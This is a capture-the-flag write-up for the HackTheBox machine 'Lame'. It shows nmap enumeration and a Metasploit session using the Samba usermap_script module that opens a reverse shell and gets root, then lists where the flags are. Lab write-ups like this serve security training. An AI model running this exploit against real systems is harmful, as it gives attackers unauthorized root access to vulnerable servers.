 ```yaml
---
layout: page
title: HackTheBox Lame
---
```


HTB Lame is a starter level machine that can be easily exploited using metasploit and some googling. Samba SMB (server message block) is a vulnerable process that in this challenge, was used to get root access into the machine using a metasploit module. To exploit this box, you just need to know basic enumeration, linux services, and some googling.

Read the full writeup [here](https://burntxnoodle.github.io/writeups/HTB-Lame/).

### Enumeration 
Using ```zenmap``` or doing ```nmap -sC -sV 10.10.10.3``` will reveal a few things:

- Ports 21, 22, 139, and 445 are open
- Port 21 has version vsftpd 2.3.4
- We are working with a linux system.

Port 20 and 21 are used for FTP. A [previous writeup](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Legacy) of mine explains what part 139 and 445 are used for. 

Here is the report from zenmap and nmap scan (both basically give the same info):
```
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [ip]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

### Exploitation 
From doing previous challenges, I know that open SMB is very vulnerable. From the nmap/zenmap reports, we know that the version of SMB is smbd ```3.0.20 - Debian``` Looking up exploits for this version I ran across this [exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script) with the metasploit module ```exploit/multi/samba/usermap_script```

Here's how I used metasploit:
```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > 
msf exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on [IP]
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Wn1LBLehVMy92DIb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Wn1LBLehVMy92DIb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened ([IP] -> 10.10.10.3:43149) at 2019-02-14 09:11:37 -0500

whoami
root
pwd
/
```

The root flag can be found in: ```/root/root.txt```
The user flag can be found in: ```/home/makis/user.txt```